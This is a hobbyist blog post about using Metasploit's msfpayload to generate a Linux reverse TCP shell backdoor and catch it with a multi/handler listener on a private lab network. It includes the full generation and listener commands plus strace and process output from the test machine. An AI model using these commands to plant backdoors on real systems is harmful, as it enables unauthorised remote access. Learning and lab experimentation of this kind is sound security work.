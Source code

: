 ```yaml
---
categories:
  - awesome-applications
  - metasploit
tags:
  - security
  - metasploit
layout: post
title: Msfpayload Greatness - Creating a Simple Backdoor
created: 1409461080
---
```


So it's Saturday night, I don't have a date, nor am I drunk, so lets hack!

I'm not a Metasploit ninja what so ever, and the basic MSF knowledge I have is playing with it via `msfconsole`. I've heard of `msfpayload` and its capabilities, but I've never gotten a chance to play around with it until now. Holyshit, `msfpayload` is freaking awesome! Msfpayload essentially gives you the ability to export payloads into a standalone binary executable or dll and yet even cooler, as well as the actual raw shellcode representation in either C, C#, Perl, Ruby, JS, VBA, and Python.

To illustrate its greatness, its dead simple to create a standalone backdoor that you can deploy onto any system.  

Syntax is straight forward:

```bash
root@kali01:~# msfpayload -h

    Usage: /opt/metasploit/apps/pro/msf3/msfpayload [< options >]  < payload > [var=val] <[S]ummary|C|Cs[H]arp|[P]erl|Rub[Y]|[R]aw|[J]s|e[X]e|[D]ll|[V]BA|[W]ar|Pytho[N]>

OPTIONS:

    -h       Help banner
    -l       List available payloads
```

So lets create our self a simple tcp reverse shell. Communicating with the payload is practically identical as with `msfconsole`, in this case the `LHOST`, listening parameter is required. X, parameter is saying that we want a binary executable, and we save the file as `cool_shit`.

```bash
root@kali01:~# msfpayload linux/x86/shell/reverse_tcp LHOST=192.168.56.102 X > cool_shit
Created by msfpayload (http://www.metasploit.com).
Payload: linux/x86/shell/reverse_tcp
 Length: 71
Options: {"LHOST"=>"192.168.56.102"}
```

At this point, assuming the backdoor has been copied to the victim's system. The attacking computer can initiate the payload.  

<!-- markdownlint-disable -->
```bash
root@kali01:~# msfcli multi/handler payload=linux/x86/shell/reverse_tcp LHOST=192.168.56.102 E
[*] Initializing modules...
[-] Failed to connect to the database: could not connect to server: Connection refused
	Is the server running on host "localhost" (::1) and accepting
	TCP/IP connections on port 5432?
could not connect to server: Connection refused
	Is the server running on host "localhost" (127.0.0.1) and accepting
	TCP/IP connections on port 5432?

payload => linux/x86/shell/reverse_tcp
LHOST => 192.168.56.102
[*] Started reverse handler on 192.168.56.102:4444
[*] Starting the payload handler...
```
<!-- markdownlint-enable -->

From here the attacker waits, until the backdoor is run on the victims computer.

<img src="/assets/awesome-applications/reverse_shell.png" alt="Reverse TCP Shell" title="Reverse Shell">

Theirs a few gotchas and quirks that I noticed. The payload handler has to initiated on the attacker's system prior to running the backdoor, other wise the reverse shell backdoor will crash.

```bash
tony@alpha-vm:~$ ./cool_shit
Segmentation fault (core dumped)
```

(Detailed strace output)

```bash
xecve("./cool_shit", ["./cool_shit"], [/* 20 vars */]) = 0
[ Process PID=4859 runs in 32 bit mode. ]
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("192.168.56.102")}, 102) = -1 ECONNREFUSED (Connection refused)
syscall_4294967165(0xffaa1000, 0x1000, 0x7, 0, 0x3, 0) = -1 (errno 38)
syscall_4294967043(0x3, 0xffaa15b8, 0xffff0cff, 0, 0x3, 0) = -1 (errno 38)
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x66ffaa} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

The second quirk was that I wasn't able to properly get a native shell session, but rather just limited to session's commands

<img src="/assets/awesome-applications/shell_error.png" alt="Reverse TCP Shell" title="Reverse Shell">

Even the process itself on the victim's system gave /bin//sh instead of /bin/sh ....

```bash
root      4227  0.0  0.1  61364  3052 ?        Ss   22:53   0:00 /usr/sbin/sshd -D
root      4323  0.0  0.2 109784  4280 ?        Ss   22:53   0:00  \_ sshd: tony [priv]
tony      4359  0.0  0.0 109932  1948 ?        S    22:53   0:00  |   \_ sshd: tony@pts/1
tony      4360  0.0  0.1  26908  4024 pts/1    Ss   22:53   0:00  |       \_ -bash
tony      4874  0.0  0.0   4444   652 pts/1    S+   23:48   0:00  |           \_ /bin//sh
```

I haven't done additional research on this quirk, it may just be some mistake on my end.

Obviously, malicious backdoors are a lot more sophisticated than this, however the fact that the Metasploit Framework lets us easily create them, as proof-of-concept this is truly amazing.

Reference:

* <a href="http://www.offensive-security.com/metasploit-unleashed/Msfpayload" target="_blank">www.offensive-security.com/metasploit-unleashed/Msfpayload</a>
